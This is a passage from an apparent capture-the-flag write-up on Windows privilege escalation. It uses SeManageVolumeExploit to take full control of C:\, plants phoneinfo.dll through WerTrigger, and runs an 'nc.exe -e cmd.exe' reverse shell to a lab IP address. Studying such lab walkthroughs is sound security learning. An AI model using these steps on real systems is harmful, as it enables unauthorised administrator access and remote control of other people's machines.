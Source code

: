 There are repositories (including one made by the creator of this box) available to exploit this:

{% embed url="https://github.com/CsEnox/SeManageVolumeExploit" %}

When run, it gives us full permissions over the entire file system:

```
C:\Users\svc_mssql\Desktop>.\SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
Entries changed: 918
DONE 

C:\Users\svc_mssql\Desktop>icacls C:\
icacls C:\
C:\ NT AUTHORITY\SYSTEM:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(RX)
    BUILTIN\Users:(CI)(AD)
    BUILTIN\Users:(CI)(IO)(WD)
    CREATOR OWNER:(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

Using this, we can actually exploit WerTrigger to get an administrator shell.&#x20;

```
C:\Users\svc_mssql\Desktop>move phoneinfo.dll C:\Windows\System32
move phoneinfo.dll C:\Windows\System32
        1 file(s) moved.

C:\Users\svc_mssql\Desktop>.\WerTrigger.exe
.\WerTrigger.exe
C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.191 21
```

<figure><img src="../../../.gitbook/assets/image (347).png" alt=""><figcaption></figcaption></figure>

Rooted!
